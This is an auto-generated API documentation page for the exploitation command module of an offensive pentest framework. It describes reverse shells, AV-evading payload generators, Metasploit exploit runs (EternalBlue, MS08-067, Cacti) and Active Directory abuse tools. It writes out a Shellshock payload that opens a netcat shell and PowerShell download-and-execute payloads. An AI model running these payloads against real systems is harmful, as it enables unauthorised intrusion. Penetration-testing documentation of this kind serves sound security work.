


# `cli.commands.exploit_migrated`

> Source: [cli/commands/exploit_migrated.py:1](../../cli/commands/exploit_migrated.py#L1) | language `py` | coverage 98.0% | [API index](../index.md)

exploit commands migrated from lazyown.py.

Auto-generated by scripts/migrate_lazyown.py.

## Contents

- **Classes:** [`ExploitMigratedCommandSet`](#exploitmigratedcommandset)

## Type Diagram



## Call Graph

Solid arrows stay in this module, dashed arrows leave it.



## Classes

<a id="exploitmigratedcommandset"></a>

### `ExploitMigratedCommandSet`

`class` | [cli/commands/exploit_migrated.py:38](../../cli/commands/exploit_migrated.py#L38)

```python
class ExploitMigratedCommandSet(LazyOwnCommandSet)
```

Bases: [`LazyOwnCommandSet`](cli.commands._base.py.md#lazyowncommandset)

**Attributes**

| Name | Type | Default | Description |
|---|---|---|---|
| [`phase`](#exploitmigratedcommandset-phase) |  | `'exploit'` |  |
| [`category`](#exploitmigratedcommandset-category) |  | `'03. Exploitation'` |  |

**Members**

| Member | Kind | Summary |
|---|---|---|
| [`do_cp`](#exploitmigratedcommandset-do_cp) | method | Copies a file from the ExploitDB directory to the sessions directory. |
| [`do_createcookie`](#exploitmigratedcommandset-do_createcookie) | method | Creates a `cookie.txt` file in the `sessions` directory with the specified cookie value. |
| [`do_py3ttyup`](#exploitmigratedcommandset-do_py3ttyup) | method | Copies a Python reverse shell command to the clipboard. |
| [`do_pyautomate`](#exploitmigratedcommandset-do_pyautomate) | method | Automates the execution of pwntomate tools on XML configuration files. |
| [`do_winbase64payload`](#exploitmigratedcommandset-do_winbase64payload) | method | Creates a base64 encoded payload specifically for Windows to execute a PowerShell command or download a file using `self.params['lhost']`. |
| [`do_createdll`](#exploitmigratedcommandset-do_createdll) | method | Create a Windows DLL file using MinGW-w64 or a Blazor DLL for Linux. |
| [`do_seo`](#exploitmigratedcommandset-do_seo) | method | Performs a web seo fingerprinting scan using `lazyseo.py`. |
| [`do_padbuster`](#exploitmigratedcommandset-do_padbuster) | method | Execute the PadBuster command for padding oracle attacks. |
| [`do_cacti_exploit`](#exploitmigratedcommandset-do_cacti_exploit) | method | Automates the exploitation of the Cacti version 1.2.26 vulnerability using the multi/http/cacti_package_import_rce exploit. |
| [`do_shellshock`](#exploitmigratedcommandset-do_shellshock) | method | Executes a Shellshock attack against a target. |
| [`do_powerserver`](#exploitmigratedcommandset-do_powerserver) | method | This function generates a PowerShell script that retrieves reverse shell over http on a Windows system. |
| [`do_sqli`](#exploitmigratedcommandset-do_sqli) | method | Asks the user for the URL, database, table, and columns, and then executes the Python script 'modules/lazybsqli.py' with the provided parameters. |
| [`do_sharpshooter`](#exploitmigratedcommandset-do_sharpshooter) | method | Executes a payload creation framework for the retrieval and execution of arbitrary CSharp source code. |
| [`do_shellfire`](#exploitmigratedcommandset-do_shellfire) | method | Runs Shellfire with various options and allows generating payloads. |
| [`do_downloader`](#exploitmigratedcommandset-do_downloader) | method | Generate a downloader command for files in the sessions directory. |
| [`do_eternal`](#exploitmigratedcommandset-do_eternal) | method | Automates the EternalBlue (MS17-010) exploitation process using Metasploit. |
| [`do_rejetto_hfs_exec`](#exploitmigratedcommandset-do_rejetto_hfs_exec) | method | HttpFileServer version 2.3. |
| [`do_ms08_067_netapi`](#exploitmigratedcommandset-do_ms08_067_netapi) | method | SMB CVE-2008-4250. |
| [`do_xss`](#exploitmigratedcommandset-do_xss) | method | Executes the XSS (Cross-Site Scripting) vulnerability testing procedure using user-defined parameters and configurations. |
| [`do_template_helper_serializer`](#exploitmigratedcommandset-do_template_helper_serializer) | method | Handles the creation and serialization of a template helper. |
| [`do_xsstrike`](#exploitmigratedcommandset-do_xsstrike) | method | Command xsstrike: Installs and runs XSStrike for finding XSS vulnerabilities. |
| [`do_sireprat`](#exploitmigratedcommandset-do_sireprat) | method | Command sireprat: Automates the setup and usage of SirepRAT to perform various attacks on a Windows IoT Core device. |
| [`do_upload_bypass`](#exploitmigratedcommandset-do_upload_bypass) | method | Command upload_bypass: Automates the installation and execution of Upload_Bypass for performing file upload bypass tests. |
| [`do_pywhisker`](#exploitmigratedcommandset-do_pywhisker) | method | Executes the pyWhisker tool for manipulating the msDS-KeyCredentialLink attribute of a target user or computer. |
| [`do_owneredit`](#exploitmigratedcommandset-do_owneredit) | method | Executes the Impacket owneredit tool for manipulating ownership of Active Directory objects. |
| [`do_gettgtpkinit_py`](#exploitmigratedcommandset-do_gettgtpkinit_py) | method | Executes the gettgtpkinit.py tool from PKINITtools to request a TGT using Kerberos PKINIT with a PFX or PEM certificate. |
| [`do_gets4uticket_py`](#exploitmigratedcommandset-do_gets4uticket_py) | method | Executes the gets4uticket.py tool from PKINITtools to request an S4U2Self service ticket using Kerberos. |
| [`do_aclpwn_py`](#exploitmigratedcommandset-do_aclpwn_py) | method | Executes the aclpwn.py tool to find and exploit ACL paths for privilege escalation in an Active Directory environment. |
| [`do_addspn_py`](#exploitmigratedcommandset-do_addspn_py) | method | Executes the addspn.py tool to manage Service Principal Names (SPNs) on Active Directory accounts via LDAP. |
| [`do_printerbug_py`](#exploitmigratedcommandset-do_printerbug_py) | method | Executes the printerbug.py tool to trigger the SpoolService bug via RPC backconnect. |
| [`do_krbrelayx_py`](#exploitmigratedcommandset-do_krbrelayx_py) | method | Executes the krbrelayx.py tool for Kerberos relaying or unconstrained delegation abuse. |
| [`do_autoblody`](#exploitmigratedcommandset-do_autoblody) | method | Executes the autobloody tool for automating Active Directory privilege escalation paths. |
| [`do_unicode_WAFbypass`](#exploitmigratedcommandset-do_unicode_wafbypass) | method | We open a Netcat listener on port 443 and attempt to exploit NodeJS deserialization by sending the following payload: {"rce":"_$$ND_FUNC$$_function()... |
| [`do_sqli_mssql_test`](#exploitmigratedcommandset-do_sqli_mssql_test) | method | Initiates a reverse MSSQL shell by starting an HTTP server to handle incoming connections and exfiltrate data. |
| [`do_pyoracle2`](#exploitmigratedcommandset-do_pyoracle2) | method | Executes the pyOracle2 tool for performing padding oracle attacks. |
| [`do_lfi`](#exploitmigratedcommandset-do_lfi) | method | Exploits a potential Local File Inclusion (LFI) vulnerability by crafting and sending HTTP GET requests to a specified URL. |
| [`do_greatSCT`](#exploitmigratedcommandset-do_greatsct) | method | Executes the GreatSCT tool for generating payloads that bypass antivirus and application whitelisting solutions. |
| [`do_sqsh`](#exploitmigratedcommandset-do_sqsh) | method | Executes the Impacket sqsh tool for manipulating ownership of Active Directory objects. |
| [`do_jwt_tool`](#exploitmigratedcommandset-do_jwt_tool) | method | Uses the jwt_tool to analyze, tamper, or exploit JSON Web Tokens (JWTs). |
| [`do_filtering`](#exploitmigratedcommandset-do_filtering) | method | Applies various filtering techniques to the given command line by modifying each character or word appropriately. |
| [`do_lol`](#exploitmigratedcommandset-do_lol) | method | Exploits a target by injecting a malicious payload and collecting admin information. |
| [`do_utf`](#exploitmigratedcommandset-do_utf) | method | Encode a given payload into UTF-16 escape sequences. |
| [`do_digdug`](#exploitmigratedcommandset-do_digdug) | method | Executes Dig Dug to inflate the size of an executable file, leveraging pre-configured settings and interactive input for minimal user effort. |
| [`do_sshexploit`](#exploitmigratedcommandset-do_sshexploit) | method | Exploits OpenSSH vulnerability CVE-2023-38408 via the PKCS#11 feature of the ssh-agent. |
| [`do_excelntdonut`](#exploitmigratedcommandset-do_excelntdonut) | method | Generates an Excel 4.0 (XLM) macro from a provided C# source file using EXCELntDonut. |
| [`do_ntpdate`](#exploitmigratedcommandset-do_ntpdate) | method | Synchronizes the system clock with a specified NTP server. |
| [`do_adcs_check`](#exploitmigratedcommandset-do_adcs_check) | method | Check Active Directory Certificate Services for ESC1-ESC8 vulnerabilities. |
| [`do_chain`](#exploitmigratedcommandset-do_chain) | method | Run autonomous exploitation chain: recon -> vuln -> exploit -> post-exploit. |
| [`do_exploit_recommend`](#exploitmigratedcommandset-do_exploit_recommend) | method | AI-powered exploit recommendation — matches discovered services to CVEs. |

<a id="exploitmigratedcommandset-do_cp"></a>

#### `ExploitMigratedCommandSet.do_cp`

`method` | [cli/commands/exploit_migrated.py:43](../../cli/commands/exploit_migrated.py#L43)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_cp(self, line)
```

Copies a file from the ExploitDB directory to the sessions directory.

1. Retrieves the path to the ExploitDB directory and the target file from the `line` parameter.
2. Copies the specified file from the ExploitDB directory to the `sessions` directory in the current working directory.


Manual execution:
To manually copy files, use the following syntax:
    cp <exploitdb_path><file_path> <destination_path>

Replace `<exploitdb_path>` with the path to your ExploitDB directory, `<file_path>` with the relative path to the file, and `<destination_path>` with the path where you want to copy the file.

For example:
    cp /usr/share/exploitdb/exploits/java/remote/51884.py /path/to/sessions/

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | The relative path to the file within the ExploitDB directory. For example, `java/remote/51884.py`. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_createcookie"></a>

#### `ExploitMigratedCommandSet.do_createcookie`

`method` | [cli/commands/exploit_migrated.py:84](../../cli/commands/exploit_migrated.py#L84)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_createcookie(self, line)
```

Creates a `cookie.txt` file in the `sessions` directory with the specified cookie value.

This function performs the following actions:
1. Extracts the cookie value from the provided input line using a regular expression.
2. Writes the extracted cookie value to `sessions/cookie.txt`.

Usage:
    createcookie cookie=user_data=valor_base64


Manual execution:
1. Creates or overwrites the file `sessions/cookie.txt` with the extracted cookie value.

Dependencies:
- `sessions/cookie.txt` will be created in the `sessions` directory.

Example:
    createcookie cookie=user_data=valor_base64

Note:
    - Ensure the input format is correct: `cookie=value`.
    - The cookie value should be properly encoded and formatted as needed.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The input line containing the cookie value in the format `cookie=value`. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_py3ttyup"></a>

#### `ExploitMigratedCommandSet.do_py3ttyup`

`method` | [cli/commands/exploit_migrated.py:128](../../cli/commands/exploit_migrated.py#L128)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_py3ttyup(self, line)
```

Copies a Python reverse shell command to the clipboard.

This function generates a Python command that uses the [`pty`](lazygui.config.constants.py.md#appconstants-pty) module to spawn a new shell and copies it to the clipboard. This is typically used for creating a TTY shell in a reverse shell situation.

Usage:
    py3ttyup


Manual execution:
1. The function creates a Python command with `pty.spawn` to open a shell.
2. The command is copied to the clipboard using `xclip`.
3. A message is printed to inform the user that the command has been copied.

Dependencies:
- The script uses `xclip` to copy the command to the clipboard.

Example:
    py3ttyup
    # This will copy the Python command `python3 -c 'import pty; pty.spawn("/bin/bash")'` to the clipboard.

Note:
    This command is often used in scenarios where you need a more interactive shell from a reverse shell connection.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This parameter is not used in the function. |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_pyautomate"></a>

#### `ExploitMigratedCommandSet.do_pyautomate`

`method` | [cli/commands/exploit_migrated.py:164](../../cli/commands/exploit_migrated.py#L164)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_pyautomate(self, line)
```

Automates the execution of pwntomate tools on XML configuration files.

1. Sets the directory for XML files to be processed:
- Checks the `sessions` directory for XML files.

2. For each XML file found:
- Constructs and executes a command to run [`pwntomate`](pwntomate.py.md) with the XML file as input.
- The command is executed using `subprocess.run`, and errors are handled if the command fails.

3. After processing all XML files:
- Prints a message indicating that the target has been pwntomated.


Manual execution:
To manually run these tasks, you would need to:
- Ensure that XML configuration files are present in the `sessions` directory.
- Run `pwntomate.py` manually on each XML file using a similar command format.

Note: This function assumes that `pwntomate.py` is available in the current working directory and is executable with Python 3.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | This parameter is not used in the function. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_winbase64payload"></a>

#### `ExploitMigratedCommandSet.do_winbase64payload`

`method` | [cli/commands/exploit_migrated.py:215](../../cli/commands/exploit_migrated.py#L215)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_winbase64payload(self, line)
```

Creates a base64 encoded payload specifically for Windows to execute a PowerShell command or download a file using `self.params['lhost']`.

1. Checks if `self.params['lhost']` is set:
    - Displays an error message and exits if `self.params['lhost']` is not set.

2. Checks if a file name or command is provided:
    - Displays an error message and exits if no file name or command is provided.

3. Prompts for the type of payload:
    - '1': Constructs a PowerShell command to download and execute a `.ps1` script from `self.params['lhost']`.
    - '2': Constructs a command to download a file using `wget`.

4. Prompts for the output type:
    - '1': Outputs the base64 encoded PowerShell command.
    - '2': Outputs the base64 encoded command in an ASP format.
    - '3': Outputs the base64 encoded command in a PHP format.

5. Encodes the command:
    - Converts the command to UTF-16LE encoding.
    - Encodes the UTF-16LE encoded command to base64.
    - Copies the final base64 command to the clipboard using `copy2clip`.


Manual execution:
To manually use the payload:
- Ensure `self.params['lhost']` is assign to the correct IP address.
- Place the `.ps1` file in the `sessions` directory if using the 'ps1' payload type.
- Use `copy2clip` to copy the generated base64 command to the clipboard.

Note: Ensure `iconv`, `base64`, and `xclip` are installed and available on your system.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The name of the `.ps1` file or the command to be executed. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_createdll"></a>

#### `ExploitMigratedCommandSet.do_createdll`

`method` | [cli/commands/exploit_migrated.py:344](../../cli/commands/exploit_migrated.py#L344)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_createdll(self, line)
```

Create a Windows DLL file using MinGW-w64 or a Blazor DLL for Linux.

This function prompts the user to select between creating a 32-bit DLL,
a 64-bit DLL, or a Linux Blazor DLL. It first checks if MinGW-w64 is installed;
if not, it attempts to install it. The user must provide a filename for the
DLL, which will be created from the `sessions/rev.c` source file.
The function constructs the appropriate command to compile the DLL based on
the user's choice and executes it. If the user selects a 32-bit or 64-bit
compilation, the function also opens the `rev.c` file in a text editor for
modifications before compilation. For option 3, it executes a script to create
a Blazor DLL using the local host (self.params['lhost']) address to download the necessary payload.

- line (str): The name of the DLL file to be created.
            Must be provided by the user.

Usage:
- Choose "1" for 32-bit, "2" for 64-bit, or "3" for creating a Linux Blazor DLL.
- Ensure that shellcode is created beforehand using
the `lazymsfvenom` or `venom` options 13 or 14
to replace in `sessions/rev.c`.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present), [`check_lhost`](core.validators.py.md#check_lhost), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_seo"></a>

#### `ExploitMigratedCommandSet.do_seo`

`method` | [cli/commands/exploit_migrated.py:402](../../cli/commands/exploit_migrated.py#L402)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_seo(self, line)
```

Performs a web seo fingerprinting scan using `lazyseo.py`.

1. Executes the `lazyseo.py` command to identify h1,h2,links,etc used by the target web application.


Manual execution:
To manually perform web seo fingerprinting, use the following command:
    lazyseo.py <target_host>

Replace `<target_host>` with the URL or IP address of the web application you want to scan.

For example:
    lazyseo.py example.com

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | This parameter is not used in the current implementation but could be used to pass additional options or arguments if needed. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg)

<a id="exploitmigratedcommandset-do_padbuster"></a>

#### `ExploitMigratedCommandSet.do_padbuster`

`method` | [cli/commands/exploit_migrated.py:437](../../cli/commands/exploit_migrated.py#L437)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_padbuster(self, line)
```

Execute the PadBuster command for padding oracle attacks.

This function constructs and executes a PadBuster command to perform
a padding oracle attack on the specified URL. It requires the user
to provide a URL, a cookie with a hash, a plaintext value to compare,
and a specific byte position to attack.

- line (str): The input line containing the cookie, plaintext, and byte
            position. Expected format: 'cookie=<HASH> plaintext <byte_position>'.

Functionality:
- The function first checks if a URL is assign in the parameters.
- It then validates that the correct number of arguments is provided.
- If the arguments are valid, it constructs the PadBuster command and executes it.
- The command is also copied to the clipboard for convenience.

Usage Example:
- assign url http://target.com
- padbuster auth=<HASH> user=admin 8

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_cacti_exploit"></a>

#### `ExploitMigratedCommandSet.do_cacti_exploit`

`method` | [cli/commands/exploit_migrated.py:483](../../cli/commands/exploit_migrated.py#L483)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_cacti_exploit(self, line)
```

Automates the exploitation of the Cacti version 1.2.26 vulnerability using the multi/http/cacti_package_import_rce exploit.

This function performs the following actions:
1. Sets up a Metasploit handler to listen for reverse connections.
2. Attempts to log in to the Cacti instance with provided credentials.
3. Checks if the target is vulnerable and uploads the malicious payload.
4. Triggers the payload to obtain a Meterpreter session.

line (str): The command line input for the cacti exploit function,
            though used directly in this implementation to set password.

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`check_lhost`](core.validators.py.md#check_lhost), [`check_lport`](core.validators.py.md#check_lport), [`check_rhost`](core.validators.py.md#check_rhost), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_shellshock"></a>

#### `ExploitMigratedCommandSet.do_shellshock`

`method` | [cli/commands/exploit_migrated.py:568](../../cli/commands/exploit_migrated.py#L568)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_shellshock(self, line)
```

Executes a Shellshock attack against a target.

This function constructs and sends a specially crafted HTTP request designed to exploit
the Shellshock vulnerability on a target server. The payload is embedded in the
'User-Agent' header, and when executed, it will open a reverse shell connection to
the attacker's machine.

- lport: Local port for the reverse shell connection, retrieved from self.params.
- self.params['lhost']: Local host for the reverse shell connection, retrieved from self.params.

The function first validates the local host (self.params['lhost']) and local port (lport) using
check_lhost() and check_lport(). If either validation fails, the function returns
without proceeding.

If the validation passes, the payload is created using the format:
'() { :; }; /bin/bash -c "nc -v {self.params['rhost']} {lport} -e /bin/bash -i"',
where self.params['rhost'] is the remote target's IP address and lport is the specified local port.

The function then attempts to send a GET request to the target URL (args.target)
with the crafted payload in the 'User-Agent' header. The server's response is captured
and printed using print_msg().

If any error occurs during the request, an error message is displayed using print_error().

None

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`check_lhost`](core.validators.py.md#check_lhost), [`check_lport`](core.validators.py.md#check_lport)

<a id="exploitmigratedcommandset-do_powerserver"></a>

#### `ExploitMigratedCommandSet.do_powerserver`

`method` | [cli/commands/exploit_migrated.py:630](../../cli/commands/exploit_migrated.py#L630)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_powerserver(self, line)
```

This function generates a PowerShell script that retrieves reverse shell over http on a Windows system.

The script generated PowerShell reverse shell to execute command by curl command is copied to the clipboard for easy execution.

line (str): This parameter is used to get the port to create the listener

The function does not return any value.
Example of use: curl -X POST http://victim:8080/ -d "Get-Process"

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_warn`](core.console.py.md#print_warn), [`check_rhost`](core.validators.py.md#check_rhost), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_sqli"></a>

#### `ExploitMigratedCommandSet.do_sqli`

`method` | [cli/commands/exploit_migrated.py:693](../../cli/commands/exploit_migrated.py#L693)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_sqli(self, line)
```

Asks the user for the URL, database, table, and columns, and then executes the Python script 'modules/lazybsqli.py' with the provided parameters.

- def_func: Function to execute (not used in this example).
- line: Command line or additional input (not used in this example).

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  |  |

**Example**

```python
- do_bsqli(None, None)
```

*Calls:* [`print_error`](core.console.py.md#print_error)

<a id="exploitmigratedcommandset-do_sharpshooter"></a>

#### `ExploitMigratedCommandSet.do_sharpshooter`

`method` | [cli/commands/exploit_migrated.py:724](../../cli/commands/exploit_migrated.py#L724)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_sharpshooter(self, line)
```

Executes a payload creation framework for the retrieval and execution of arbitrary CSharp source code.

SharpShooter is capable of creating payloads in a variety of formats, including HTA, JS, VBS, and WSF.

Usage:
    sharpshooter [-o <output file>] --oa -t 20 rhost

This function installs SharpShooter if it is not already installed, prompts the user for the payload type,
and then runs SharpShooter to create a payload based on the specified type.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | The command line input for the function (not used directly in the current implementation). |

**Returns:** None

**Example**

```python
To create a payload using SharpShooter, ensure you have already generated shellcode using lazymsfvenom or venom,
and then run this function to specify the payload type and generate the final payload file.
```

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="exploitmigratedcommandset-do_shellfire"></a>

#### `ExploitMigratedCommandSet.do_shellfire`

`method` | [cli/commands/exploit_migrated.py:768](../../cli/commands/exploit_migrated.py#L768)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_shellfire(self, line)
```

Runs Shellfire with various options and allows generating payloads.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Not used in this implementation but reserved for future use. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`is_binary_present`](core.process.py.md#is_binary_present)

<a id="exploitmigratedcommandset-do_downloader"></a>

#### `ExploitMigratedCommandSet.do_downloader`

`method` | [cli/commands/exploit_migrated.py:892](../../cli/commands/exploit_migrated.py#L892)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_downloader(self, line)
```

Generate a downloader command for files in the sessions directory.

This function lists all files in the 'sessions' directory recursively, excluding certain file extensions.
The user can select a file, choose a download method, and the command is generated and copied to the clipboard.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` |  |  | Optional output filename for the downloader command. |

**Returns:** None

*Calls:* [`print_error`](core.console.py.md#print_error), [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn), [`copy2clip`](utils.py.md#copy2clip)

<a id="exploitmigratedcommandset-do_eternal"></a>

#### `ExploitMigratedCommandSet.do_eternal`

`method` | [cli/commands/exploit_migrated.py:972](../../cli/commands/exploit_migrated.py#L972)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_eternal(self, line)
```

Automates the EternalBlue (MS17-010) exploitation process using Metasploit.

This function performs the following tasks:
1. Selects the EternalBlue Metasploit module for Windows SMB exploitation.
2. Displays the current options for the module.
3. Sets the required payload options, such as [`LHOST`](skills.hermes-lazyown.constants.py.md#configkeys-lhost) and [`RHOST`](skills.hermes-lazyown.constants.py.md#configkeys-rhost).
4. Executes the exploit and attempts to gain access to the target machine.

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Command line input that provides the LHOST and RHOST. |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_rejetto_hfs_exec"></a>

#### `ExploitMigratedCommandSet.do_rejetto_hfs_exec`

`method` | [cli/commands/exploit_migrated.py:1016](../../cli/commands/exploit_migrated.py#L1016)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_rejetto_hfs_exec(self, line)
```

HttpFileServer version 2.3.

Vulnerable using the module rejetto_hfs_exec of metasploit

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Command line input that provides the LHOST and RHOST. |

**Returns:** None

*Calls:* [`print_msg`](core.console.py.md#print_msg), [`print_warn`](core.console.py.md#print_warn)

<a id="exploitmigratedcommandset-do_ms08_067_netapi"></a>

#### `ExploitMigratedCommandSet.do_ms08_067_netapi`

`method` | [cli/commands/exploit_migrated.py:1053](../../cli/commands/exploit_migrated.py#L1053)

Decorators: `@cmd2.with_category('03. Exploitation')`

```python
def do_ms08_067_netapi(self, line)
```

SMB CVE-2008-4250.

Vulnerable using the module ms08_067_netapi of metasploit

**Parameters**

| Name | Type | Default | Description |
|---|---|---|---|
| `line` | `str` |  | Command line input that provides the LHOST and RHOST. |

**Returns:** None

